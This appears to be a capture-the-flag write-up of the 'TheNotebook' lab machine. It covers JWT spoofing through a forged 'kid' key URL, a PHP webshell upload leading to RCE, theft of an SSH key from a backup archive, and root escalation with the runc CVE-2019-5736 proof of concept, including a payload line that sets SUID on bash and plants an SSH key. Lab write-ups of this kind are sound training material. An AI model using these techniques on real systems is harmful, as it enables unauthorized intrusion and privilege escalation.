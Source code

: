 # TheNotebook

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.71.99  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 09:27 EDT
Nmap scan report for 10.129.71.99
Host is up (0.0081s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Notebook --> JWT Spoof

The website is a notebook website:

<figure><img src="../../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

We can create a new user because we don't have any credentials. Once created, we can login and view our notes, of which we have none:

<figure><img src="../../../.gitbook/assets/image (10) (7).png" alt=""><figcaption></figcaption></figure>

When the requests are viewed in Burp, we can see that it uses a JWT token and a `uuid` parameter:

{% code overflow="wrap" %}
```http
GET / HTTP/1.1
Host: 10.129.71.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.71.99/70e7d57d-8987-4075-9a28-2c9075219c68/notes
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJhZG1pbl9jYXAiOjB9.HOnHZHkqdPXbWn4LJrSgF4-DX0UXztaiQxefbsp0DteIvaQUtOMkAGgTvvZex0QU63vcrnXwQRTj5MLfMp1JyFHUWIS5J9slqqhXGsNNSOBQHmHlvptTLa8mvJCZJJAqymKCxGswa41Nu7hb20W3Ksi7iQSg9JcZoy9WeFV9lbEhBiSrler_H1LiSzkF-x4vegERnJiGkZ4hK_2LjVObeeY3ZCQcJWjCH3Cuo2YG1rVas4h0YBinnSq9ANvUsovpLolovsOUP4TNDPzIlccMjmhU0R_yhh5WItg0uG_PiQaACryT3G2_PYw5PRj_Dj5COrHtzYaT2NES2q54WecSJOWfD7RUW6o-yB4SFC_lJVqfqE3DljujJwGcOf8SP43kAf1z_VLGKuUkHceOsvU60aEDZDcgnJB4LTuIjqunIVzZ22lnlfHDGe1zJza8bpUVk-2xDDmqj1F3bBsCMQOXnmMmffBpSFPjsTyBwZM2F3kNEmopZiHr1S1UzeMolW98gzIrwGM8jx1lMOV76SNlK6vGP-q_UoFOg8F07aB6ClPqtbw83cyQZLn2kME40XDBzZgNgbzXmZXfnBg83mkWis9KQhOL8FJ3MPha7h0tfSnsiUXV2s7vATWXlrydpQL6gsWsuWt-cn6CQGEPAX0svar_9K8Pyd08NDJJpNdVfmg; uuid=70e7d57d-8987-4075-9a28-2c9075219c68
Upgrade-Insecure-Requests: 1
```
{% endcode %}

We can take a look at this cookie within jwt.io and see that it uses a private key hosted on the server.&#x20;

<figure><img src="../../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>

The token is spoofable, similar to another machine Unicode. We can generate our own private key using `openssl` and use it to spoof the token by replacing the `kid` parameter with a link hosting the key instead. Also, we can change `admin_cap` to be 1.&#x20;

```bash
openssl genrsa -out priv.key 2048
```

<figure><img src="../../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

When we use this token after refreshing the page, we can see an Admin Panel present.&#x20;

<figure><img src="../../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

Then, we can view the notes of the administrator through Admin Panel > View Notes.

<figure><img src="../../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>

Conveniently, the first note reveals that PHP files are left executable on this website.

<figure><img src="../../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>

The admin panel also has an upload file feature:

<figure><img src="../../../.gitbook/assets/image (649).png" alt=""><figcaption></figcaption></figure>

I uploaded a basic PHP webshell, and the page shows this:

<figure><img src="../../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

Using this, we can get RCE:

<figure><img src="../../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>

And subsequently, a reverse shell.

<figure><img src="../../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet as `noah` owns it.

### Home.tar.gz

I viewed the `nginx` configuration files:

```
www-data@thenotebook:/$ cat /etc/nginx/sites-available/default
server {
        listen 80 default_server;
        root /var/www/html;
        server_name _;
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
        }
        location / {
                proxy_pass http://127.0.0.1:8080/;
        }
}
```

There was nothing much there that was new. Within the `/var/backups` file, there was an extra file present:

```
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  home.tar.gz
apt.extended_states.1.gz  apt.extended_states.3.gz
```

We can copy this folder to `/dev/shm` and open it there since we can't create new files within `/var/backups`.

```
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm
www-data@thenotebook:/var/backups$ cd /dev/shm
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

We can grab the `id_rsa` file and `ssh` in as `noah`.&#x20;

### Sudo Privileges

We can check our `sudo` privileges:

```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

It seems that we can run docker as `root`. Googling for exploits pertaining to this version reveals a CVE that allows for RCE. This is caused by an outdated `runc` binary that is run from the container.&#x20;

{% embed url="https://github.com/Frichetten/CVE-2019-5736-PoC" %}

Download this repositroy, and we can change the payload run to something else:

{% code overflow="wrap" %}
```bash
var payload = "#!/bin/bash \n chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys"
```
{% endcode %}

Then we can run `go build main.go` to build it. Then, following the PoC, we can create a Docker container using the `sudo` command allowed.

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Afterwards, within the container, run the `main` binary and it will hang:

```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
```

On a second Window, we need to run the `sudo` command one more time, and on the Docker container, it would execute properly:

{% code overflow="wrap" %}
```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 3292
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00036e060}
[+] The command executed is#!/bin/bash 
 chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys
```
{% endcode %}

Then, we can just `ssh` into `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

Rooted!
